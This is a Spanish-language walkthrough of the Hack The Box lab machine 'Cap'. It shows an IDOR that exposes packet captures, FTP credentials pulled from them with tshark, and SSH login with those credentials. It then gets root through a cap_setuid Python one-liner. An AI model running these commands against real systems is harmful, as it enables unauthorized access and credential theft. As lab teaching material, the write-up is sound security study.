





HTB: Cap

💻 [Detalles] > Consideraciones de la máquina#
Máquina: Cap
Sistema Operativo: Linux
Dificultad: Easy
IP: 10.129.11.250
📔 Resumen#
Si bien la máquina Cap es por definición “fácil” (para aquellos que ya tienen experiencia 😅), también es en mi opinión, metódica, lógica y extremadamente realista.
Es el recordatorio perfecto de que, a veces, la seguridad no se rompe con un mazo, sino simplemente cambiando un número en la URL.
IDOR (Insecure Direct Object Reference), es una de las vulnerabilidades más comunes en el mundo real (Top 10 de OWASP).
- El servidor genera capturas de red (.pcap) y las numera. Si tú ves la tuya en cap/data/3, un atacante probará cap/data/0.
- Por tanto, el problema viene con la falta de validación del servidor al no verificar que el objeto ‘3’ o el objeto ‘0’ pertenecen solo a la sesión activa del usurio.
📑 Comenzando - En Arch Linux.#
Tan pronto inicias te piden identificar los puertos abiertos. La opción sugerida es nmap, así que usémosla para encontrar los puertos activos.
Nmap#
1nmap -p- -v --open 10.129.11.250 | grep "open"

firefox o exploración de rutas#
Este dependerá de el método que elijas para la determinación de la url, la más sencilla es visualizar lo que te muestra en home el servidor.
1firefox http://10.129.11.250
2
3#### Verás que al seleccionar el link http://10.129.11.250/capture
4#### te redirecciona a /data/1
5
6#### Ya sea descargado desde el sitio o desde una inspección del
7#### código fuente del sitio, buscamos posibles indicios y vulnerabilidades
8
9curl -o 0.cap 10.129.11.250/data/0

🔑 Extrayendo credenciales con Tshark#
Para evitar el uso de herramientas pesadas, utilicé tshark directamente en Arch:
1#### Para tener una visión general de quién se está comunicando:
2tshark -r 0.pcap -Y "ftp"
3
4#### Este comando filtra específicamente las solicitudes de login y te muestra solo los argumentos
5tshark -r 0.pcap -Y "ftp.request.command == USER || ftp.request.command == PASS"
6
7#### Si encuentras un paquete interesante y quieres leer la "conversación" completa en formato ASCII:
8tshark -r 0.pcap -z follow,tcp,ascii,0
9#### (El 0 al final es el ID del stream. Puedes ir cambiando a 1, 2, 3... hasta encontrar el correcto).
| Comando | Propósito |
|---|---|
| tshark -r file.pcap | Leer el archivo completo. |
| -Y “http.request.method == POST” | Filtrar por peticiones POST (donde suelen ir logins). |
| -z hosts | Listar todas las IPs y hostnames encontrados. |
| -V | Mostrar el paquete con máximo detalle (modo verbose). |

🕸️ Explotación (Foothold)#
En este momento seguramente querrás irrumpir ya en el servidor, y es precisamente lo que harémos a continuación.
1#### Dado que las credenciales FTP también son válidas para conexiones SSH, procedamos a ingresar
2ssh nathan@10.129.11.250
3
4#### Veámos que encontrámos de primera instancia
5ls -l
6
7#### Tendrás que ver el contenido del archivo alojado en home para obtener la primer bandera
8cat user.txt
⚡ Escalada de Privilegios (PrivEsc)#
1#### Ejecuta el siguiente comando para listar todos los archivos que tienen capacidades especiales
2getcap -r / 2>/dev/null
-
-r /: Busca de forma recursiva desde la raíz. -
2>/dev/null: Oculta los errores de “Permiso denegado” para que la salida sea limpia.
Deberías ver algo muy sospechoso:
/usr/bin/python3.8 = cap_setuid+ep
Traducción al español: Python tiene permiso para ejecutar la llamada al sistema setuid.
Básicamente, Python puede “disfrazarse” de cualquier usuario, incluido root.

Ahora que sabemos que Python tiene el poder de cambiar su identidad, vamos a decirle que se convierta en root (ID de usuario 0).
Ejecuta esto en la terminal de la máquina víctima:
1python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
import os: Importamos el módulo del sistema operativo.
os.setuid(0): Le pedimos a Python que cambie el ID del proceso al usuario 0 (root). Como tiene la capability activada, el sistema lo permite sin pedir contraseña.
os.system("/bin/bash"): Lanzamos una nueva terminal. Pero como el proceso ahora “es” root, la terminal será de root.
1#### Asegurate de que ha funcionado!
2whoami
3
4#### Ve a /root
5cd /root
6
7#### Verás que se encuentra el archivo root.txt y deberás obtener su contenido para adquirir la última bandera.
8ls -la
9
10cat root.txt
👏 Felicidades si has llegado hasta aquí!#
